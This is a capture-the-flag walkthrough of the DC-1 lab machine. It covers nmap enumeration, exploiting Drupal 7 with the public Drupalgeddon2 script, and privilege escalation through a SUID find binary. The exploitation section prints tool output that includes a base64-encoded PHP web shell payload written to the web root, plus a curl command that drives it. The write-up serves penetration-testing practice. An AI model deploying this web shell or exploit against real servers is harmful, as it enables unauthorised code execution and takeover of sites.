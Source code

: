 # PG Play - DC-1

#### Ip: 192.168.244.193
#### Name: DC-1
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.193
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:05 CDT
Nmap scan report for 192.168.244.193
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
40238/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -sC -sV 192.168.244.193 -p 22,80,111,40238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:07 CDT
Nmap scan report for 192.168.244.193
Host is up (0.066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35685/udp6  status
|   100024  1          40238/tcp   status
|   100024  1          56691/udp   status
|_  100024  1          58362/tcp6  status
40238/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.51 seconds
```

Heading to the site we find we are working with Drupal here.

![site.png](../assets/dc-1_assets/site.png)

Nmap also found a `/robots.txt` page for us with several entries:

![robots.png](../assets/dc-1_assets/robots.png)

Kicking off a Nikto scan against the target we see it is running Drupal 7. This version is associated with several vulnerabilities. 

![nikto.png](../assets/dc-1_assets/nikto.png)

Using https://www.exploit-db.com/exploits/44449 we can get easy code execution on the target.

### Exploitation

We can run:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ ruby drupalgeddon2.rb http://192.168.244.193
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.244.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.244.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.244.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://192.168.244.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/database.inc    (HTTP Response: 403)
[+] URL    : v7.x/6.x?
[+] Found  : http://192.168.244.193/    (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: http://192.168.244.193/    (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo PLBVJBLR
[+] Result : PLBVJBLR
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.244.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.244.193/shell.php' -d 'c=hostname'
DC-1>> hostname
DC-1
DC-1>> whoami
www-data
```

Lets use this pseudo-shell to spawn a proper reverse shell:

![shell.png](../assets/dc-1_assets/shell.png)

Cool, now that we have a working shell, lets grab the local.txt flag:

![user_flag.png](../assets/dc-1_assets/user_flag.png)

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

![transfer.png](../assets/dc-1_assets/transfer.png)

Interesting, LinPEAS finds that `find` has the SUID bit set. 

![find.png](../assets/dc-1_assets/find.png)

This should make for an easy privesc. Heading over to https://gtfobins.github.io/gtfobins/find/ we find the command we need:

![gtfo.png](../assets/dc-1_assets/gtfo.png)

Lets run that:

![root.png](../assets/dc-1_assets/root.png)

Nice, that worked! We can now grab the final flag:

![root_flag.png](../assets/dc-1_assets/root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------
